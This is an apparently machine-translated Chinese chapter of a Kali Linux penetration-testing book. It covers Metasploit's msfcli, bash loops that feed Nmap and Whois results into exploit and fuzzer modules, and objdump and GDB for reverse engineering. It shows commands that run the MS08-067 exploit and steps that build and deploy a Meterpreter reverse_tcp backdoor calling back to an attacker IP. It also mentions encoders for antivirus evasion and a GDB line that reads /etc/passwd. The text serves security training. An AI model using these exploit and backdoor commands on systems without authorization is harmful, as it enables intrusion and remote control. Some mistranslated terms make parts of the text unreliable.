





# 第四章开发与逆向工程

在上一章中，我们介绍了一些在网络上处理目标枚举的命令行工具。在本章中，我们将介绍一系列工具，这些工具使您能够执行反向工程和后门主机等活动，我们还将介绍集成强大工具（如 Metasploit 剥削框架和 bash 脚本）的方法。

此外，我们将在本章中介绍一系列工具，这些工具可帮助您发现内存损坏、代码注入以及可能用于实例化任意代码执行漏洞的常规数据或文件处理缺陷。

在某个点上发现的每个漏洞都涉及反向工程。当有人知道如何利用一段代码中的给定行为时，这意味着这个人在某种程度上详细描述了给定行为的细微差别，并利用这些知识来利用它。这个过程被称为逆向工程。由于逆向工程具有如此重要的意义，我们将介绍在逆向工程中发挥作用的一些基本工具。我们将特别关注与 Kali Linux 一起打包的工具，这些工具纯粹是命令行驱动的，因此本书的标题是。

# 使用 Metasploit 命令行界面

Metasploit 可能是应用最广泛的渗透测试和开发框架，也是人们最常用的测试、发现和开发漏洞的工具。多年来，Metasploit 被视为对安全行业最有才华的开发人员和开发者的支持。

Metasploit 框架的许多有用功能之一是它能够向命令行公开其模块和工具的调用。这意味着 Metasploit 可以在 bashshell 的功能丰富且功能强大的问题解决环境中使用。此功能称为**Metasploit 命令行界面**（**msfcli**）。

## 开始使用 msfcli

在本节中，我们将了解如何使用 Metasploit 命令行界面进行基本扫描，利用一些通用漏洞，并将一些有用的 bash 脚本与 Metasploit 命令行界面集成。

以下是`msfcli`命令的使用说明：

```
msfcli [MODULE] [OPTIONS] [MODE]
[MODULE] := [exploit/* | auxiliary/* | payload/* | post/* ]
[OPTION] := [ [option_name] = [value] <space> ]*
[MODE] := [A | AC | C | E | H | I | O | P | S | T ]

```

根据前面的命令，`MODULE`、`OPTIONS`和`MODE`解释如下：

*   `[MODULE]`：这是要调用的元 sploit 模块。这可以是您可以从 Metasploit 控制台调用的任何模块。
*   `[OPTIONS]`：这是给定模块的空格分隔的键值对选项列表。这些选项特定于此处调用的模块。在以下段落中，我们将了解如何确定给定模块的选项。
*   `[MODE]`：这是模块的调用模式。

考虑下面的例子：

```
msfcli exploit/windows/smb/ms08_067_netapi RHOST=192.168.10.108 E

```

在前面的示例中，`MODULE`选项将是`exploit/windows/smb/ms08_067_netapi`，而`OPTIONS`列表是`RHOST=192.168.10.108`。

您可以为模块指定更大的选项列表，如下所示：

```
msfcli exploit/windows/smb/ms08_067_netapi RHOST=192.168.10.108 RPORT=445 SMBPIPE=BROWSER

```

这个漏洞到底在这里做什么并不重要；我们只是演示了 msfcli 的基本用法。稍后，我们将演示如何使用 msfcli 来了解有关利用模块的更多信息。

## 与 msfcli 一起使用调用模式

Metasploit 命令行界面可以通过不同的方式调用，具体取决于您指定的调用模式。调用模式在效果上各不相同，即从向您提供有关模块的信息（例如，关于谁开发了该模块的信息）到向您提供有关如何启用 IDS 规避技术以及可以使用哪些有效负载触发或打包相关漏洞（如果适用）的信息的模式。

首先，让我们看看设计用于传递模块信息的调用模式。您可能并不总是知道要调用的模块有哪些可用选项。在本例中，Metasploit 有一个非常有用的模式，您可以使用 msfcli 模块调用它。以下命令用于执行此操作：

```
msfcli exploit/windows/smb/ms08_067_netapi O

```

上一个命令将产生如下输出：


选项调用模式缩写为`O`作为命令行参数，仅显示必要选项的简短摘要，即成功运行指定模块所需的严格选项。您可能还想了解更多关于模块背景的信息，例如，是谁开发了该模块，该模块试图利用哪个漏洞，以及该模块设计的目标操作系统。您可以通过使用摘要调用模式（缩写为`S`）找到这一点。以下命令用于执行此操作：

```
msfcli exploit/windows/smb/ms08_067_netapi S

```

*   上一个命令将产生如下输出：


前面屏幕截图中演示的模式仅打印基本必要选项的摘要。您还可以让 Metasploit 使用以下命令打印出使用高级模式的选项的完整列表：

```
msfcli exploit/linux/imap/imap_uw_lsub A

```

上一个命令生成如下输出：



为了简洁起见，省略了前面截图中的一些输出。以下可能是其他调用选项：

*   `AC`：详细说明给定模块的可用选项
*   `C`：检查所提供模块的例程
*   `I`：显示本模块可用的 IDS 规避技术
*   `P`：列出模块可用的有效负载类型
*   `T`：列出此模块可用的操作系统目标

我们关于 Metasploit 框架命令行界面的讨论到此结束。下一节将介绍在渗透测试或漏洞评估期间，在常见情况下将此功能与 bash 脚本和其他命令行实用程序集成的有用方法。

## Bash 黑客和 msfcli

鉴于 msfcli 允许我们直接从命令行调用 Metasploit 模块，我们可以做一些非常有用的事情，比如将 Nmap 扫描结果与 msfcli 集成，或者将 DNS 或 Whois 查找结果直接插入到 msfcli 模块调用中。下面的部分将演示几个有用的 bash 脚本，它们可以实现这一点。

如果您想检查 Whois 查找中扩展的一系列 IP 上给定漏洞的可利用性，可以直接从命令行界面执行以下 bash 脚本：

```
msfcli [MODULE] RHOSTS=`whois $(dig [domain name] +short ) |\ 
awk –F\  '/inetnum/ { print $2"-"$4 }'` C

```

在前面的命令中，`[MODULE]`和`[DOMAIN NAME]`将分别是要使用的 Metasploit 模块的名称和路径，因为它在 Metasploit 控制台中使用，并且是要运行模块的域名。

### 提示

**关于长命令行**

必须在 bashshell 的一个命令行中完整地输入前面的示例。这意味着在完成输入如图所示的行之前，不要按*回车*。`\`转义字符允许您在终端中输入多行，并将其视为单个命令行调用。这样可以避免输出环绕屏幕，在某些情况下，屏幕会变得有点不可读。

您选择的模块需要为检查调用模式支持多台主机。一个简单的实际示例是使用给定域名对其中一个 Metasploit 模块进行端口扫描。以下命令显示了如何执行此操作：

```
msfcli auxiliary/scanner/portscan/syn RHOSTS=`whois $(dig [domain name] +short ) | awk –F\  '/inetnum/ { print $2"-"$4 }'` E

```

当然，如果您正在评估的组织根据 Whois 数据库负责多个 IP 范围，您可以首先枚举所有 IP 范围，并使用以下命令将其提供给 msfcli：

```
for range in `whois –i mnt-by [maintainer]|awk –F '/inetnum/ { print $2"-"$4 }'
 do
 msfcli auxiliary/scanner/portscan/syn RHOSTS=$range E
 done

```

如果要在单个命令行中指定上一个命令，则其代码如下所示：

```
for range in `whois –i mnt-by [maintainer] | awk –F '/inetnum/ { print $2"-"$4 }'; do msfcli auxiliary/scanner/portscan/syn RHOSTS=$range E; done

```

将 msfcli 与 bash 结合的另一种有用方法是从 Nmap 扫描中拔出，并根据发现哪些端口处于打开状态，开始使用一些 Metasploit 模糊模块对它们进行模糊化。以下命令显示了如何执行此操作：

```
for ip in `nmap –v –T5 –p[PORT] [HOST] | awk –F\  '/[PORT]\/[tcp | udp] on/ { print $6 }'`
 do
 msfcli [MODULE] RHOST=$ip E;
 done

```

如果在单个命令行中指定，它将如下所示：

```
for ip in `nmap –v –T5 –p[PORT] [HOST] | awk –F\  '/[PORT]\/[tcp|udp]on/ { print $6 }'`; do msfcli [MODULE] RHOST=$ip E; done

```

例如，您可以使用以下代码模糊页面上的 HTTP 表单：

```
for ip in `nmap –v –T5 –p80 [HOST] | awk –F\  '/80\/tcp on/ { print $6 }'`; do msfcli auxiliary/fuzzers/http/http RHOST=$ip E; done

```

另一个示例是使用以下代码模糊 SSHv2 服务器：

```
for ip in `nmap –v –T5 –p22 [HOST] | awk –F\  '/22\/tcp on/ { print $6 }'`; do msfcli auxiliary/fuzzers/ssh/ssh_version_2 RHOST=$ip E; done

```

这里有许多例子可以演示。事实上，您可以编写一整本书，其中只包含涉及 msfcli 和端口扫描工具的示例。不仅如此，您还可以开发自己的 Metasploit 模糊化和漏洞扫描模块。

解释这些示例的目的是向您展示一种通用样式，如果您想从 Nmap 或其他枚举工具获取 IP 列表，并自动将结果提供给 msfcli，则可以遵循该样式。以下是我们在开发此类 bash 脚本时将遵循的一般模式：

1.  使用`grep`或 awk 隔离结果中的数据，您有兴趣与 Metasploit 模块集成。
2.  在提取的数据样本列表中迭代（如果适用）。
3.  将它们填充到调用给定模块的命令行。

使用此模式不仅可以解决大量问题，还可以实现自动化。它还可以帮助您以框架默认情况下无法真正满足的方式组合 Metasploit 模块，除非我们将自己的模块脚本化到功能中。

# 使用 Metasploit 准备有效载荷

在渗透测试过程中，您可能经常需要证明您对主机有无限制的控制，或者您可能需要使用某种形式的远程方式（从本地网络或更广泛的互联网可访问命令行界面）与主机进行实际交互。如果您发现自己处于允许您在主机上执行任意代码的情况下，并且希望远程控制它，那么利用这种情况的一种最常见的方法是上载一个 shell，该 shell 允许您远程与命令 shell 或提示符交互。Metasploit 有一个专用于满足这些情况的工具，称为 msfpayload。

Metasploit 负载生成器（msfpayload）允许您生成一个可执行包，该包连接回 Metasploit 会话中运行的 MeterMeter 实例。

### 提示

**关于流量计**

Metasploit 的 MeterMeter 是有效负载的接口，它允许用户将指令动态注入到使用适当的 MeterMeter 启用有效负载的主机中。更简单地说，渗透测试人员可以准备回叫 MeterMeter 实例的有效负载，这允许他们使用各种工具与主机交互，例如注入代码以转储密码散列、升级权限，甚至避免检测。

在本教程中，我们将演示如何准备授予此功能的漏洞利用。

首先，让我们来看看可用的负载。您可以通过执行以下命令来检查这些：

```
msfpayload –l

```

以下屏幕截图演示了上一个选项：


每个负载都有许多选项，这是大多数 Metasploit 模块的风格。要查看有效负载的可用调用选项，应执行以下命令：

```
msfpayload [payload] O

```

例如，考虑以下命令：

```
msfpayload cmd/unix/reverse O

```

下面的屏幕截图演示了之前的命令：


有许多方法可以根据您希望使用的代码格式来表示各种有效负载。以下是可用的选项：

*   `R`：这是针对原始二进制格式。
*   `C`：这是 C 代码
*   `y`：这是针对 Ruby 代码的
*   `H`：这是 C 代码
*   `P`：这是针对 Perl 代码的
*   `J`：这是针对 JavaScript 的
*   `X`：用于可执行格式
*   `D`：用于动态链接库（DLL）
*   `V`：这是 VBA 代码
*   `W`：这是战争档案

以下屏幕截图展示了这些选项中的一些选项的效果：


每个选项的存在都是为了满足在不同操作系统和运行时环境中的利用。

# 创建和部署有效负载

例如，我们将为 Ubuntu 32 位机器创建后门。执行以下步骤以执行此操作：

1.  Create the payload in an executable format. Here, we will use a Meterpreter shell and save it in a file called `backdoor`. The following command will achieve this:

    ```
    msfpayload linux/x86/meterpreter/reverse_tcp LHOST=[Attacker IP] X > backdoor

    ```

    `LHOST`是您作为攻击者使用的机器的 IP 地址，或者更确切地说是您希望与后门进行交互的机器的 IP 地址。

    有关示例，请参见以下屏幕截图：

    

2.  在目标主机上部署后门。这一步显然将取决于您对上述主机的访问。对于我们的示例，我们只需使用`scp`将其上传到给定用户的主文件夹。
3.  Start a Metasploit handler on the attacker machine with the following code:

    ```
    msfcli multi/handler payload=linux/x86/Meterpreter/reverse_tcp LHOST=[attacker IP]

    ```

    例如，使用以下命令启动 Metasploit 处理程序：

    ```
    msfcli multi/handler payload=linux/x86/Meterpreter/reverse_tcp LHOST=192.168.10.103

    ```

4.  Execute the payload on the target host. For our example, this will simply involve starting the payload as shown in the following screenshot:

    

5.  You should see the following startup on your machine, namely a connect back to the Meterpreter handler:

    

前面的屏幕截图显示了对受影响主机的目录访问。

您应该记住，msfpayload 在安全行业中被大量使用，包括渗透测试人员和编写防病毒软件的人员。这意味着，如果您试图在安装了现代防病毒软件的主机上部署一个普通的 Metasploit 有效负载，那么除了在防病毒软件的数据库中触发一个签名之外，它可能不会起什么作用。要破坏这种保护，您需要使用编码器或多态引擎的服务。这两种机制（编码和多态）对后门中的恶意负载进行编码和模糊处理，以便防病毒软件无法将其识别为恶意负载。请参阅本章结尾处的*进一步阅读*一节，了解更多详细信息。

msfpayload 命令就是这样。我们可以继续学习反向工程工具。

# 反汇编二进制文件

正如本章导言中提到的，逆向工程是一项全面有效的安全研究的关键方面。编译的可执行文件的逆向工程的一个重要方面是反汇编。

反汇编是尽可能逆转代码编译效果的过程。Kali Linux 提供了一些非常好的工具来协调这个过程；然而，当在命令行上进行反汇编时，很少有工具能接近 Objdump。

## 使用 Objdump 拆卸

在本节中，我们将学习如何使用 Objdump 及其一些不同的调用选项，从**可执行和可链接格式**（**ELF**二进制文件中剥离出不同部分的信息。

### 提示

**关于可执行可链接格式**

ELF 是一种文件格式，用于打包可执行文件、共享库、Linux/Unix 系统的对象文件以及它们的一些派生文件。

使用 Objdump 非常简单，不过能否正确使用它取决于您对 ELF 格式的理解程度；出于这个原因，我在本章的*进一步阅读*一节中包含了一些非常有用的参考资料，详细介绍了格式，我建议您查看一下。

要在这里反汇编给定的二进制文件，我们将使用带有 Objdump 的 bash shell 可执行二进制文件示例，您可以执行以下步骤：

1.  We're going to use the actual binary for the bash shell. To grab a copy of it, you can execute the following command:

    ```
    cp `which bash` ~/. 

    ```

    前面的命令将为 bashshell 获取二进制文件的副本，即本书的当前焦点。我们将通过 Objdump 了解更多关于它如何工作的信息，并详细说明它根据代码执行的方式。我们选择在 bash 可执行二进制文件的副本上工作，以防在所有 Kali 默认以 root 身份运行之后，我们做了任何意外损坏它的事情！

2.  Invoke the following command to run Objdump on the binary:

    ```
    objdump –D bash

    ```

    这个命令的作用是提供`–D`选项，它告诉 Objdump 反汇编二进制文件并将其打印到屏幕上。您应该看到如下屏幕截图所示的输出：

    

这就是让 Objdump 分解一个二进制文件所需要做的一切。虽然乐趣还不止于此，但可执行二进制文件有许多部分，每个部分都专门用于详细说明可执行行为的给定部分。Objdump 有许多选项，每个选项都专用于从二进制文件中提取各种信息。

如果像示例中那样调用 Objdump，您可能会看到输出的这一部分，如以下屏幕截图所示：



输出详细说明了给定二进制文件中可用的部分；但是，如果您只想查看给定部分的代码，则应使用以下选项：

```
objdump –t [section name] –D [binary]

```

例如，如果您想转储`.text`部分的代码，可以使用以下命令：

```
objdump –t .text –D [binary]

```

对于我们当前的示例，它将生成类似于以下屏幕截图的输出：



Objdump 有个可用选项。我在*进一步阅读*一节中添加了一些有用的链接，以供您了解更多信息。

## 关于反求工程汇编代码的一点注记

因此，我们已经大致涵盖了 Objdump 的基本知识。然而，如果我不提一点你需要了解的关于二进制文件的东西，我就不会公正地对待你，因为你需要了解二进制文件才能成为一个成功的逆向工程。

在关于 Objdump 的前一节中，我们学习了如何提取关于`.text`段的信息。ELF 的`.text`段包含可执行代码。本节自然包含有关二进制行为的信息，这通常是逆向工程师感兴趣的内容。ELF 中的可执行代码用汇编语言表示，为了让您理解`.text`段中的信息，您需要在一定程度上理解汇编代码。

汇编代码是一种从语义上描述机器代码的语言，而机器代码是一组位和字节的集合，这些位和字节实际上控制着 CPU 和内存，我们称之为软件。因此，汇编代码代表运行机器的实际代码，而不是 C、C++、java 和代码开发的其他代码。这是因为计算机实际上不具备理解 C、C++或任何其他高级语言的计算能力，必须依赖编译器在这些语言能够被执行之前解析和翻译成更基本的原子语言。汇编语言严格按照 CPU 寄存器和内存之间的交互来描述软件计算，反之亦然。这是基于一组简单的操作：加法、减法、异或、值比较等等。

每个 CPU，或者更确切地说是体系结构，以其特有的格式表示这些指令。这些格式称为指令，可以根据基本属性集进行分类。大体上，它们分为**精简指令集计算机**（**RISC**）或**复杂指令集计算**（**CISC**）。然后，每个 RISC 和 CISC 指令集根据可从内存移动到寄存器的最大数据量定义，这称为寄存器大小。我相信你们中的一些人熟悉 32 位或 x86 和 64 位或 x86-64 机器。

如果您在编程方面有一些经验，您就会知道，当代码执行时，它几乎总是在函数的上下文中执行。这意味着许多翻译成汇编程序的代码将描述在函数内部设置执行并将执行转移到另一个函数的过程。每个指令集和体系结构都有一个特定的标准，该标准定义了如何根据 CPU 寄存器和所涉及的操作来完成这项工作。本标准称为过程调用函数。在*进一步阅读*一节中，我已经介绍了一些针对 ARM、Intel 和 MIPS 体系结构的过程调用标准，除非您想花几周时间阅读有关汇编程序的内容（您真的不需要），否则我建议您查看这些参考资料。

也就是说，我们可以使用 GDB 对二进制文件进行动态分析。

# 调试二进制文件进行动态分析

像 Objdump 这样的工具非常适合在可执行文件未执行时查看其代码。但是，如果您想实际观察执行中的可执行文件，并了解它如何处理信息以及其内部数据结构如何因执行而改变，则需要一种称为调试器的工具。其中一个工具叫做 GNU 调试器（**GDB**。在本节中，我们将介绍 GDB 的基本用法，您还将了解它允许我们在二进制文件执行期间完成的一些任务。

## 开始使用 GDB

首先，让我们加载一个二进制文件，并使用以下命令在 GDB 中运行它：

```
gdb [binary]

```

对于我们当前的示例，此命令如下所示：

```
gdb ./bash

```

GDB 在这里所做的是准备在二进制文件执行期间将自己连接到二进制文件，这意味着它将二进制文件放在一个特殊的环境中，允许它在执行期间观察详细信息。它还尝试从提供的文件中读取调试信息，该文件是一个信息集合，有助于从测试的角度对程序进行更语义的描述。不幸的是，在我们的示例中，bash 没有遵守调试标志集。这意味着没有关于对象的语义元数据（如变量名、源代码到汇编代码映射等）可供 GDB 使用，只剩下低级汇编代码可供使用。然而，这并不是一个坚定的逆向工程的死胡同。

一旦二进制文件加载完毕，我们要做的第一件事就是在 GDB 中运行程序。在`gdb`提示符中使用以下命令：

```
(gdb) run

```

您应该会在屏幕上看到以下弹出窗口：



按照 GDB 和大多数调试程序的操作方式，它们允许您在程序的可执行代码中的给定地址指定停止点，或者更确切地说是断点。这允许您停止程序并检查其数据结构以获取信息。GDB 允许您在程序到达断点时对其执行许多操作。您可以检查 CPU 寄存器的值，或者更确切地说，检查该程序在执行期间可用的 CPU 寄存器内容的副本。您还可以检查内存值、打印本地和全局变量、检查堆栈以及执行大量其他任务。我们将为您提供最基本的帮助，并向您展示如何了解更多有关 GDB 功能的信息。

您还可以使用`run`命令将参数传递给当前正在研究的可执行文件。命令如下所示：

```
(gdb) run [arguments list]

```

例如，考虑以下命令：

```
(gdb) run Hello World

```

前面的命令将把两个字符串`Hello`和`World`作为参数传递给当前可执行文件。您还应该知道，`run`命令与 bash 命令行处理器完全集成，因此您可以使用 bash hacks、命令替换、重定向和管道的完整规范，通过`run`命令传递参数。以下是一个典型示例：

```
(gdb) run `cat /etc/passwd | awk –F\: '/^root/ { print $0 }'`

```

上一个命令将把包含`/etc/passwd`文件中以`root`开头的所有行的参数作为参数传递给当前可执行文件。

## 设置执行断点和观察点

所以，接下来，您可能希望在您与 GDB 的逆向工程冒险中的某个点设置断点，但在我们这样做之前，我们需要找到一个地址来设置断点。

对于本例，我们将使用主函数中的第一个地址，该地址在程序启动后立即执行。在执行此操作之前，我们需要了解此地址是什么，您可以使用以下命令执行此操作：

```
(gdb) breakpoint main

```

前面的命令将获取在名为`main`的函数中执行的第一个地址。如果您想在`main`函数中为任意地址设置断点，则需要在代码中稍加修改。要找出在`main`函数中可用的地址，请执行以下命令：

```
(gdb) disassemble main

```

前面的命令告诉 GDB 反汇编给定可执行文件的`main`函数。这通常是开发人员编写的、特定于给定可执行文件的所有代码开始的地方。您应该会在屏幕上看到类似于以下屏幕截图的内容：



在前面的屏幕截图中，我们可以看到正在使用`disass`命令，即反汇编的缩写。它执行与`disassemble`命令相同的功能。

前面的屏幕截图显示了 GDB 如何分解`main`函数。我们感兴趣的是`main`函数的第一个地址。为了使事情更简单，我们将模拟前面示例中执行的断点`main`命令的行为。您要查找的地址是列出的第一个地址；在本例中，它将是地址`0x0806dc0`。地址在此以十六进制格式列出。如果你不习惯使用十六进制数字，你应该尽快研究它们是如何工作的；大多数逆向工程师可能读十六进制比他们用母语读的多！

出于兴趣的考虑，您可能已经猜到 Objdump 应该为您提供与启动`main`函数的地址相同的信息。以下屏幕截图显示了 Objdump 对主要功能起点的说明：


Objdump 似乎同意 GDB 关于`main`函数的起始地址。这是因为可执行文件的`.text`部分映射到静态和预定的收集地址；也就是说，`.text`部分将可靠地始终出现在`.text`部分中详细说明的地址中。

因此，您现在要做的是为这个地址设置一个断点，作为断点的简单演示。为此，请在 GDB 提示符中输入以下命令：

```
(gdb) breakpoint * [main start address]

```

对于我们的示例，此命令的工作方式如下：

```
(gdb) breakpoint * 0x0806dc0

```

前一个命令应产生以下输出：


您还可以使用 breakpoint 命令的缩写，其工作原理如下：

```
(gdb) b [function name]

```

否则，您可以使用以下命令指定特定的内存地址，如下所示：

```
(gdb) b * [address]

```

除了设置断点（根据指令指针的值中断和停止二进制文件的执行）之外，还可以使用监视点中断执行。以下命令显示如何为给定变量设置观察点：

```
(gdb) watch –l [variable name]

```

使用变量的地址，可以通过以下方式执行此操作：

```
(gdb) watch –l * [address]

```

使用我们当前的示例，我们可以为堆栈顶部指针设置一个观察点，即当`main`开始执行时保存在 ESP 中的值：


如果我们重新运行可执行文件，监视点将触发如下：


## 检查寄存器、内存值和运行时信息

一旦你得到了停止一个二进制的挂起就在你希望它停止的地方，也就是在处函数或代码中的特定行，或者一旦某个变量根据给定的条件更改了其值，您可能希望开始查看可执行文件的数据结构和内存内容。在刚才讨论的示例中，让我们先看看在第一个断点命中后登记的寄存器值。以下命令显示了如何执行此操作：

```
(gdb) info registers

```

上一个命令应产生以下输出：


您还可以打印当前 stacktrace，即关于哪个函数是当前函数的调用者以及在调用过程中传递给它的参数的信息，以及调用者的调用者和该调用者的无限调用者。

以下是当前 stacktrace 的示例：

```
(gdb) info stack

```

上一个命令应产生以下输出：


还可以使用以下命令查看堆栈的实际内容：

```
(gdb) x/5x $esp

```

这里，我们使用的是瑞士军刀 x，它可以打印内存值。它在 GDB 提示符中用于以各种格式打印可执行文件中内存、局部变量和其他信息存储区域的值。例如，x 能够以十进制、十六进制、八进制和二进制打印值，以及将数据转换为指令，以便能够打印存储在给定内存地址的可执行指令列表。我们在这里做的是给`x`一个`/5x,`的参数，意思是：

> 以十六进制格式打印 5 个地址值，并用“x”表示。

有关`x`工作原理的更多信息，请在 GDB 提示符中执行`help x`命令。

无论如何，前一个命令应产生以下输出：


如果您想在执行中估计当前实例的堆栈大小，可以执行以下命令：

```
(gdb) set $count =  ( $ebp - $esp ) / 4
(gdb) eval "x/%dx $esp", $count

```

之前的命令将打印到屏幕上，具体取决于您在程序执行期间执行这些命令的时间：


您可以使用`eval`命令基于变量值（如此）构建用于任何目的的命令。这里，我们使用这个命令来计算保存在 ESP 寄存器中的堆栈指针顶部值和保存在 EBP 寄存器中的堆栈指针底部的地址差。我们还将该值除以`4`来计算打印整个堆栈所需的地址数。

接下来，还有无数其他运行时分析工具和函数。有关这些函数的更多信息，在 GDB 提示符中执行以下命令：

```
(gdb) info

```

此将列出并描述您可以执行的信息类型功能。要了解更多关于 GDB 的任何功能，您可以使用`help`功能，如下所示：

```
(gdb) help

```

这就总结了 GDB 的基本用法。希望您对它有足够的了解，使它成为逆向工程和渗透的有用工具。

# 总结

在本章中，我们介绍了如何使用 Kali Linux 中提供的基于命令行的逆向工程和通用应用程序开发工具，以及如何将它们与一些非常有用的 bash 脚本集成的详细方法。

更具体地说，我们学习了使用 Metasploit 命令行界面。我们还介绍了基于 Metasploit 框架命令行的有效负载生成器，并以如何为 Linux 32 位机器构建后门为例。最后，我们看了反向工程工具 Objdump 和 GDB。我们使用 Objdump 来详细说明可执行文件的各个部分，并查找给定函数的地址。我们的示例是查找`main`。在 GDB 中，我们讨论了设置断点、设置监视点，以及通过转储堆栈、寄存器值以及跟踪某些内存值的变化，从二进制文件中增殖有用信息，这些信息不仅在二进制文件执行之前，而且在二进制文件执行期间也会如此。

希望所有这些工具都能在您需要打开应用程序并了解其全部内容的任何时候派上用场。有关本章介绍的工具的更多信息，以及一些重要的支持技术信息，请参阅*进一步阅读*部分中的链接。

# 进一步阅读

*   关于 Metasploit 流量计，您可以在[找到更多信息 http://www.offensive-security.com/metasploit-unleashed/About_Meterpreter](http://www.offensive-security.com/metasploit-unleashed/About_Meterpreter)
*   有关 Metasploit 的流量计，请转至[https://projetsecubd.googlecode.com/svn-history/r17/trunk/Documents/meterpreter.pdf](https://projetsecubd.googlecode.com/svn-history/r17/trunk/Documents/meterpreter.pdf)
*   有关流量计的基本知识，请转至[http://www.offensive-security.com/metasploit-unleashed/Meterpreter_Basics](http://www.offensive-security.com/metasploit-unleashed/Meterpreter_Basics)
*   有关 MSFCLI 的更多信息，请访问[http://www.offensive-security.com/metasploit-unleashed/Msfcli](http://www.offensive-security.com/metasploit-unleashed/Msfcli)
*   您可以在[阅读 GNU GDB 文档 http://www.gnu.org/software/gdb/documentation/](http://www.gnu.org/software/gdb/documentation/)
*   您可以在[处读取可执行和可链接的格式 http://wiki.osdev.org/ELF](http://wiki.osdev.org/ELF)
*   ELF 对象文件格式：简介，点击[http://www.linuxjournal.com/article/1059](http://www.linuxjournal.com/article/1059)
*   要阅读更多有关 DWARF 调试信息格式修订版 2.2.0 的信息，请转至[http://www.dwarfstd.org/doc/dwarf-2.0.0.pdf](http://www.dwarfstd.org/doc/dwarf-2.0.0.pdf)
*   有关 Objdump 命令参考的详细信息，请转至[https://sourceware.org/binutils/docs/binutils/objdump.html#objdump](https://sourceware.org/binutils/docs/binutils/objdump.html#objdump)
*   您可以在[上阅读 Intel 对 x64 汇编的介绍 https://software.intel.com/sites/default/files/m/d/4/1/d/8/Introduction_to_x64_Assembly.pdf](https://software.intel.com/sites/default/files/m/d/4/1/d/8/Introduction_to_x64_Assembly.pdf)
*   此外，还可以在[上查看英特尔《英特尔体系结构软件开发人员手册》第二卷 https://www.cs.cmu.edu/~410/doc/intel-isr.pdf](https://www.cs.cmu.edu/~410/doc/intel-isr.pdf)
*   ARM-THUMB 程序调用标准见[http://www.cs.cornell.edu/courses/cs414/2001fa/armcallconvention.pdf](http://www.cs.cornell.edu/courses/cs414/2001fa/armcallconvention.pdf%20)
*   ARM 程序调用标准–ARM 可在[找到 http://infocenter.arm.com/help/topic/com.arm.doc.ihi0042e/IHI0042E_aapcs.pdf](http://infocenter.arm.com/help/topic/com.arm.doc.ihi0042e/IHI0042E_aapcs.pdf)
*   您可以在苹果开发者网站[的 iOS ABI 函数调用指南上进一步阅读 https://developer.apple.com/library/ios/documentation/Xcode/Conceptual/iPhoneOSABIReference/Introduction/Introduction.html](https://developer.apple.com/library/ios/documentation/Xcode/Conceptual/iPhoneOSABIReference/Introduction/Introduction.html)
*   Dennis Yurichev 的《初学者逆向工程》可在[找到 http://yurichev.com/writings/RE_for_beginners-en.pdf](http://yurichev.com/writings/RE_for_beginners-en.pdf)